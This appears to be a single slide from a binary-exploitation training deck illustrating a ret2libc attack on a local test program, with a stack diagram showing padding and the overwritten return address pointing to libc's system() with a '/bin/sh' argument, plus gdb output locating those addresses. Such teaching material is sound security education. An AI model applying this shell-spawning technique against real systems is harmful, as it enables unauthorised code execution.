

86￼
86￼
Exploit ret2libc
| EBP | 0x61616161 |
| --- | --- |
| ESP | 0xe0 |
| EIP | 0xf7e4ada0 |
stack
Low

…

…

aaaa

aaaa

aaaa

0xf7e4ada0
esp
0xe0

0x0

0xf7f6ba0b

0x0

0x0
High
[gdb]> p system
$1 = {<text variable, no debug info>} 0xf7e4ada0 <__libc_system>
[gdb]> vmmap
Start      End        Perm      Name
0x08048000 0x08049000 r-xp      /tmp/bof
0x08049000 0x0804a000 r--p      /tmp/bof
0x0804a000 0x0804b000 rw-p      /tmp/bof
0x0804b000 0x0806c000 rw-p      [heap]
0xf7e0f000 0xf7e10000 rw-p      mapped
0xf7e10000 0xf7fc0000 r-xp      /lib/i386-linux-gnu/libc-2.23.so
0xf7fc0000 0xf7fc2000 r--p      /lib/i386-linux-gnu/libc-2.23.so
0xf7fc2000 0xf7fc3000 rw-p      /lib/i386-linux-gnu/libc-2.23.so
0xf7fc3000 0xf7fc6000 rw-p      mapped
0xf7fd4000 0xf7fd5000 rw-p      mapped
0xf7fd5000 0xf7fd8000 r--p      [vvar]
0xf7fd8000 0xf7fd9000 r-xp      [vdso]
0xf7fd9000 0xf7ffc000 r-xp      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p      /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rw-p      [stack]
[gdb]> p system
$2 = {<text variable, no debug info>} 0xf7e4ada0 <__libc_system>
[gdb]> find "/bin/sh" 0xf7e10000 0xf7fc0000
Searching for '/bin/sh' in range: 0xf7e10000 - 0xf7fc0000
Found 1 results, display max 1 items:
libc : 0xf7f6ba0b ("/bin/sh")